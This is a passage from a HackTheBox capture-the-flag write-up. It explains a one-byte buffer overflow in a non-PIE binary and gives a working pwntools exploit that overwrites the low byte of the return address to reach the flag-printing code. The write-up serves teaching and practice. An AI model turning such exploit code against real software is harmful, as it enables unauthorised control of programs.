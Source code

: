 ![](/assets/img/hackthebox/challenges writeups/Space Pirate: Going Deeper/OffsetCheck3.png)

As we can see this what exactlly happen so we have `1-byte BOF` situation .

#### **Exploit**

Since the `PIE` protection is disabled so this means there is no any randmiztion on the program addresses every time its run so by controlling this byte we can control the flow of the program to make it jump to the instruction which print us the flag

```python
from pwn import *

# Binary filename
exe = './sp_going_deeper'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size =  64
log.info("Context Setting: " + context.arch + " " + context.os + " " + context.endian + " " + str(context.word_size))


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = process(exe)

# Wait to get the '>> ' string then send 2 to select the sec option
io.sendlineafter(b'>> ',b"2")

# Create the payload of the exploit which conatins a 56 junk char (eg. A) then the least significant byte on RIP
payload = flat([
    b"A"*56,
    0x12
]) 

# Wait to get this string "[*] Username: " then send our malcious payload
log.info("Sending Payload")
io.sendlineafter(b'[*] Username: ',payload)

# Getting the Flag
log.success(f'Flag --> {io.recvline_contains(b"HTB").strip().decode()}')
```

The Exploit script do the following :
- **Line 1 - 13 :** Import Pwn Lib , Define the binary and the context and some usefull info about the binary 
- **Line 21 :** Run the binary
- **Line 24 :** Select the sec option (login option)
- **Line 27 - 30 :** Create the malcious payload which contains : 
  - 56 junk char ( eg. A ) 
  - The byte to overwrite the least byte in RIP and we choose it to be `0x12` will explain it later
- **Line 34 :** To send the payload 
- **Line 37 :** Filter the response from te binary to get the flag
